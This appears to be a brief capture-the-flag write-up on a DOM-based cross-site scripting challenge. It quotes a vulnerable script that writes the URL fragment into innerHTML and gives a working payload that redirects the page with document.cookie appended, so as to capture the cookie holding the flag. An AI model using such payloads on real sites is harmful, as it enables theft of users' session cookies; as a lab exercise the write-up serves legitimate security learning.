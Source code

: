 # XSS - DOM

At first, we can see that there is an serious xss vuln in the /vuln page

```
<script nonce={{ nonce }}>
    window.addEventListener("load", function() {
      var name_elem = document.getElementById("name");
      name_elem.innerHTML = `${location.hash.slice(1)} is my name !`;
    });
 </script>
```

You can create a script with an id "name" and insert a code after the tag. The malicious code will automatically execute

```
<script id="name">
alert(123);
</script>
```

So we only need to inject this payload to get the cookie that contain the flag

Before the #: <script id= "name"></script>
After the #: document.location.href="/memo?memo="+document.cookie

You can find the flag on your own
